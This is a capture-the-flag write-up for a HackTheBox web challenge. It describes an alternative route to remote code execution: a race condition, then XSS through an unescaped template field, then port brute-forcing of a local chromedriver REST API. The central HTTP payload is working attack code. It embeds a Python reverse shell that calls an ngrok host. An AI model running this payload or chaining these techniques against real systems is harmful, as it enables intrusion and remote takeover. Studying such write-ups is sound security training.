


Attack Scenario:

    - Gain internal access via race condition
    - xss injection
    - Gain RCE VIA chromedriver API REST


Please take a moment to read intended way to gain RCE in official writeup
https://github.com/hackthebox/cyber-apocalypse-2024/blob/main/web/%5BInsane%5D%20apexsurvive/official_writeup.md

The intended way to gain RCE is using `UWSGI configuration overwrite RCE`

Well i found another approach to gain the RCE using this approach https://medium.com/@knownsec404team/counter-webdriver-from-bot-to-rce-b5bfb309d148
and some bruteforcing

But we dont need the DNS Rebind because bot will run the exploit in localhost so it will pass the security check


Well you can see chromedriver API rest will be start in 5 Digits port

after gaining internal access we can inject javascript

```html
<script>
    let note = `{{ product.note | safe }}`;
    const clean = DOMPurify.sanitize(note, {FORBID_ATTR: ['id', 'style'], USE_PROFILES: {html:true}});
    document.getElementById('note').innerHTML += clean;
</script>
```
dont look the dompurify
we're able to inject **\`;** to close the let note syntax then add whatever we want


we can inject our RCE bruteforcejavascript
```http
POST /challenge/api/addItem HTTP/2
Host: host:1337
Cookie: session=
Content-Length: 663
Content-Type: application/x-www-form-urlencoded

name=asd&price=1&imageURL=1&seller=1&description=1&note=`;%0a        
y = 40000
data = {"capabilities":{"alwaysMatch":{"goog:chromeOptions":{"binary":"/usr/bin/python3","args":["-cimport socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('0.tcp.ap.ngrok.io',NGROKPORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn('sh')"]}}}}
while(y != 60000){
        
        fetch(`http://localhost:${y}/session`, {method:'POST', mode:'no-cors', headers:{'Content-type':'application/json'}, body:JSON.stringify(data)})
y%2B%2B
}
const www = `
&antiCSRFToken=
```

then just report to the Item ID, the bot will visit then start bruteforce port for RCE
after waiting several second, connection is comming



